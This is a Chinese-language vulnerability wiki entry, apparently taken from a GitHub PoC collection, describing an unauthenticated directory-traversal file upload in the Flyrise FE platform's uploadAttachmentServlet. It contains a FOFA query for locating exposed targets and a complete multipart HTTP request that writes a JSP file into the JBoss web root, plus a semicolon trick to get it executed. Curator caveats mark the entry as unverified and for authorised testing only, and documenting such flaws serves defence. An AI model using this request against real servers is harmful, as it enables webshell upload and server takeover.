


# 飞企互联FE uploadAttachmentServlet目录穿越上传

## 条目说明

- 对象与具体问题：飞企互联FE；uploadAttachmentServlet目录穿越上传
- 版本、配置及部署条件：<7.0声明，JBoss fe.war安装位置相关
- 认证与权限前提：无Cookie且声明未授权
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 完整上传包，但称文件名加分号未说明上传名还是访问URL，正文无最终触发路径
- 固定五级穿越与jboss路径不是通用，需版本/容器条件
- 官方已发布补丁无build/公告；在野已知无依据
- hello输出可验证JSP解析，但应补响应文本/权限范围

## 操作风险

文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

## 漏洞描述

飞企互联-FE企业运营管理平台 /servlet/uploadAttachmentServlet接口处存在文件上传漏洞，未经身份验证的攻击者可以利用此漏洞上传恶意后门文件，获取服务器权限，进而控制整个web服务器。

## 影响范围

version < 7.0

## **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 原文提供部分细节 | 见技术资料 | 未独立核验 | 待来源核实 |

> 归档原表（原作者主张，未独立核验）：上表记录本库当前核验边界；下表保留归档中的公开情况和在野利用声明，不能据此认定本库已验证。
>
> | 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
> |------|-------|-------|------|
> | 是 | 已公开 | 已公开 | 已知 |

### 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 中 |
| 利用难度 | 低 |

## 漏洞复现

FOFA：app="FE-协作平台"

POC/EXP：

```http
POST /servlet/uploadAttachmentServlet HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryKNt0t4vBe8cX9rZk

------WebKitFormBoundaryKNt0t4vBe8cX9rZk
Content-Disposition: form-data; name="uploadFile"; filename="../../../../../jboss/web/fe.war/he.jsp"
Content-Type: text/plain

<% out.println("hello");%>
------WebKitFormBoundaryKNt0t4vBe8cX9rZk
Content-Disposition: form-data; name="json"

{"iq":{"query":{"UpdateType":"mail"}}}
------WebKitFormBoundaryKNt0t4vBe8cX9rZk--

jsp文件上传后默认是不解析 ，需在文件名后加个 `;` 即可绕过解析jsp文件
```








## 修复方案

**官方修复：**

目前官方已发布补丁更新，建议受影响用户尽快安装。

厂商已发布了漏洞修复程序，请及时关注更新：

https://www.flyrise.cn/


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
